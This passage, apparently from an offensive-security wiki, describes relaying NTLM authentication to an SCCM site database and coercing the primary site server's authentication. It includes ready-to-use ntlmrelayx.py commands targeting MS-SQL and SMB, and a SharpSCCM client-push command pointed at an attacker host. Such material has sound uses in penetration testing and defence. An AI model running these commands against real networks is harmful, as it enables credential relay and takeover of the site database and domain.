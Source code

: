2. Setup NTLM relay server

The target of the [NTLM relay attack](ntlm/relay.md) must be set to the site database server, either on the MS-SQL (port `1433/tcp`), or SMB service (port `445/tcp`) if the relayed user has admin privileges on the target. The rest of this page is focusing on relaying the authentication on the MS-SQL service.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Impacket](https://github.com/fortra/impacket)'s [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) (Python) script can be used for that purpose. In the examples below, the `-socks` option is used for more versatility but is not required.

```bash
# targetting MS-SQL
ntlmrelayx.py -t "mssql://siteDatabase.domain.local" -smb2support -socks

# targeting SMB
ntlmrelayx.py -t "siteDatabase.domain.local" -smb2support -socks
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) (Powershell) can be used as an alternative to [Impacket](https://github.com/fortra/impacket)'s [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py), however it doesn't feature the same SOCKS functionality, need in the steps detailed below, meaning the exploitation from Windows system will need to be adapted.
{% endtab %}
{% endtabs %}

Fore more insight on NTLM relay attacks and tools options, see the corresponding page on The Hacker Recipes: [NTLM Relay](ntlm/relay.md).

3. Authentication coercion

The primary site server's authentication can be coerced via automatic client push installation targeting the relay server with [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#). For more information, see the corresponding article "[Coercing NTLM authentication from SCCM](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)" by [Chris Thompson](https://mobile.twitter.com/\_mayyhem). Alternatively, the server's authentication could be coerced with other, more common, coercion techniques ([PrinterBug](print-spooler-service/printerbug.md), [PetitPotam](mitm-and-coerced-authentications/ms-efsr.md), [ShadowCoerce](mitm-and-coerced-authentications/ms-fsrvp.md), [DFSCoerce](mitm-and-coerced-authentications/ms-dfsnm.md), etc.).

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, authentication can be coerced through [PrinterBug](print-spooler-service/printerbug.md), [PetitPotam](mitm-and-coerced-authentications/ms-efsr.md), [ShadowCoerce](mitm-and-coerced-authentications/ms-fsrvp.md), [DFSCoerce](mitm-and-coerced-authentications/ms-dfsnm.md), etc. (not based on triggering the client push installation).

There isn't any UNIX-like alternative to the `SharpSCCM.exe invoke client-push` feature (yet).
{% endtab %}

{% tab title="Windows" %}
{% code overflow="wrap" %}
```powershell
SharpSCCM.exe invoke client-push -mp "SCCM-Server" -sc "<site_code>" -t "attacker.domain.local"
```
{% endcode %}
{% endtab %}
{% endtabs %}

